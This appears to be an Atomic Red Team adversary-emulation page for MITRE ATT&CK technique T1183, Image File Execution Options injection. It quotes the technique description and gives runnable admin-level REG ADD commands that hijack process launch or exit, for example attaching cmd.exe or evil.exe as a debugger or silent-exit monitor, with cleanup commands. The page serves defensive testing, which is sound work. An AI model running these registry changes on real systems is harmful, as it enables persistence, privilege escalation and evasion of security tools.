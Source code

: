 # T1183 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1183)
<blockquote>Image File Execution Options (IFEO) enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., “C:\dbg\ntsd.exe -g  notepad.exe”). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code><executable></code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IEFO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

An example where the evil.exe process is started when notepad.exe exits: (Citation: Oddvar Moe IFEO APR 2018)

* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"</code>

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may be abused to obtain persistence and privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous invocation.

Malware may also use IFEO for Defense Evasion by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;calc.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f
```





<br/>
